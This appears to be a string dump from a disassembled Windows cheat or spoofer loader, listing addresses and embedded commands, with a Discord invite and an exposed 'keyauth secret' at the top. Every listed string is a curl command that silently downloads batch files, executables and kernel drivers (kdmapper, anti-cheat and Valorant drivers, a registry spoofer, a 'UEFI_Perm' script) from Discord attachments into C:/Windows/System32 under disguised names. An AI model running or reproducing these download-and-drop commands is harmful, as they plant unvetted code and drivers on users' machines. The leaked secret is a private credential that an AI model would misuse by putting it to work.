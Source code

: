# timefn server https://discord.gg/PagEaK6KAe

keyaut hsecret: cc914445fd32b95bb93b3153dc654c4a8d59d8b0ef07f4d032be7bc97e5d2b83 

アドレス=00007FF7016CFD72
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8290]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984112849666338828/1ButtonNE.bat --output C:/Windows/System32/sxwhs.bat >nul 2>&1"

アドレス=00007FF7016CFD7F
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8330]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/979588096024801330/NetCleaner_1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016CFE78
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8480]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984145900408553482/valo_1.bat --output C:/Windows/System32/sxwhs.bat >nul 2>&1"

アドレス=00007FF7016CFE85
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8510]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984145900681199616/regspoofer.bat --output C:/Windows/System32/f3341.bat >nul 2>&1"

アドレス=00007FF7016D010E
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8620]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984113907209748601/ApexLegendsCleaner.bat --output C:/Windows/System32/sxwhs.bat >nul 2>&1"

アドレス=00007FF7016D011B
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8330]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/979588096024801330/NetCleaner_1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0219
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D86D0]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984121087375847544/EAC_BE.sys --output C:/Windows/System32/sxwhs.sys >nul 2>&1"

アドレス=00007FF7016D0226
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0233
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8800]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984260408519045191/Loader.bat --output C:/Windows/System32/f3341.bat >nul 2>&1"

アドレス=00007FF7016D0240
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8890]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984885463540179045/UEFI_Perm.bat --output C:/Windows/System32/f33411.bat >nul 2>&1"

アドレス=00007FF7016D0344
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D89A0]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/980495351712727120/valorant.sys --output C:/Windows/System32/sxwhs.sys >nul 2>&1"

アドレス=00007FF7016D0351
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D035E
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8800]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984260408519045191/Loader.bat --output C:/Windows/System32/f3341.bat >nul 2>&1"

アドレス=00007FF7016D0459
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D86D0]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984121087375847544/EAC_BE.sys --output C:/Windows/System32/sxwhs.sys >nul 2>&1"

アドレス=00007FF7016D0466
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0466
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0480
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8890]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984885463540179045/UEFI_Perm.bat --output C:/Windows/System32/f33411.bat >nul 2>&1"


